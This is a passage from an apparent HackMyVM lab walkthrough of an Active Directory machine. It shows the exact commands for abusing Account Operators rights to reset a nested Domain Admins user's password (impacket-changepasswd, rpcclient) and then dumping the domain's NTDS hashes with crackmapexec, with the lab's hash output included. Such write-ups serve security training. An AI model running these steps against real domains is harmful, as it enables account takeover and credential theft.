 ![](/assets/img/posts/walthrough/hackmyvm/2024-10-24-dc03/capture-2.png)

We will see that the user FBETH103 is a member of the Operators goup which in turn is a memeber Domain Admins group. Since the Operators group is not listed above, its members accounts in this group can be modify by memebrs of the Account Operator group. Let's change the password of this user to a password we know.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/DC03]
└─$ impacket-changepasswd SOUPEDECODE.LOCAL/fbeth103@10.0.2.33 -altuser xkate578 -altpass <REDACTED> -newpass str@ngpassword -reset         
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Setting the password of SOUPEDECODE.LOCAL\fbeth103 as SOUPEDECODE.LOCAL\xkate578
[*] Connecting to DCE/RPC as SOUPEDECODE.LOCAL\xkate578
[*] Password was changed successfully.
[!] User no longer has valid AES keys for Kerberos, until they change their password again.
```
*NB: We can do the same thing using rpcclient with the command `setuserinfo2 <username> 23 <new_password>`*

Since FBETH103 is memebr of the Domain Admins group through nested group memebrship, we can use this account to perform a DCSync attack against the domain controller.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/DC03]
└─$ crackmapexec smb DC01.SOUPEDECODE.LOCAL -u fbeth103 -p str@ngpassword --ntds
SMB         SOUPEDECODE.LOCAL 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         SOUPEDECODE.LOCAL 445    DC01             [+] SOUPEDECODE.LOCAL\fbeth103:str@ngpassword (Pwn3d!)
SMB         SOUPEDECODE.LOCAL 445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         SOUPEDECODE.LOCAL 445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:2176416a80e4f62804f101d3a55d6c93:::
SMB         SOUPEDECODE.LOCAL 445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         SOUPEDECODE.LOCAL 445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:fb9d84e61e78c26063aced3bf9398ef0:::
SMB         SOUPEDECODE.LOCAL 445    DC01             soupedecode.local\bmark0:1103:aad3b435b51404eeaad3b435b51404ee:d72c66e955a6dc0fe5e76d205a630b15:::
SMB         SOUPEDECODE.LOCAL 445    DC01             soupedecode.local\otara1:1104:aad3b435b51404eeaad3b435b51404ee:ee98f16e3d56881411fbd2a67a5494c6:::
```